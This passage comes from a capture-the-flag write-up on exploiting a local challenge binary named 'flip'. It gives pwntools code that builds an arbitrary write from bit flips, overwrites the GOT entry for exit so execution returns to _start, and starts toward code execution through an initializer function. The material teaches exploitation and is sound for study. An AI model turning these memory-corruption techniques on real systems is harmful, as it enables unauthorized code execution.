 We can now start to create a generic arbitrary write function:
```python
def find_bit_flips(a, b):
	tmp = bytearray(bin(a ^ b)[2:][::-1])
	ret = []

#print "a: {}".format(bin(a))
#print "b: {}".format(bin(b))
#print tmp
	while True:
		try:
			i = tmp.index("1")
			ret.append(i)
			tmp[i] = "0"
		except ValueError:
			break

	return ret


def arbitrary_write(addr, value, old_value):
	flips = find_bit_flips(old_value, value)
	for flip in flips[::-1]:
		addr2 = addr + (flip / 8)
		flip2 = flip % 8
		r.recvuntil("to flip: ")
		r.sendline("{:#x}:{}".format(addr2, flip2))
```

This function will work the first time we try to flip bits as well, since we
need less than 5 flips.

Here's the first part of the code:
```python
binary = "./flip"
r = process(binary)
elf = ELF(binary)

exit = elf.plt["exit"] + 6
log.info("exit: {:#x}".format(exit))
target = elf.symbols["_start"]

arbitrary_write(elf.got["exit"], target, exit)
```

Now, we need to figure out how to get arbitrary code execution. As we could see
on the disassembly above, the binary doesn't really have that much
functionality. However, we know that the binary starts by printing the current
time. This is actually implemented in a constructor called `initialize()`.

By looking at the disassembly, we see that the function looks something like
this:
```C
static void __attribute__((constructor)) initialize(void)
{
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stdin, NULL, _IONBF, 0);
	alarm(40);

	snprintf(buf, 0x7f, welcome_str, asctime(localtime(time(NULL))));
}
```
